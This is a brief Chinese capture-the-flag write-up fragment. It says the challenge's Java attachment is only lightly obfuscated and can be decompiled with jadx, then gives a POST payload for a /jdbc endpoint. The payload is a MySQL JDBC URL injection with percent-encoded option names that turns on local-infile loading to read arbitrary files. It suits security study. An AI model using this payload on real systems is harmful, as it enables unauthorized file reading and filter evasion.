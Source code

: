 给出的附件是有混淆的，但是混淆的并不多，因此可以通过jadx打开或者通过decomplier直接反编译获得正常的源码，混淆的真的不是很严重，但是极具迷惑性，嘿嘿，后面的绕过就是简单的代码审计了，相信各位师傅都会



```
/jdbc

post:
host=ADDRESS=(host=127.0.0.1)(port=3306)(database=test)(user=fileread_file%3A%2F%2F%2F.)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65%49%6e%50%61%74%68=%2F)(%61%6c%6c%6f%77%55%72%6c%49%6e%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%6d%61%78%41%6c%6c%6f%77%65%64%50%61%63%6b%65%74=655360)  #/test&port=3306&database=test&extraParams={}&username=test&password=root


```

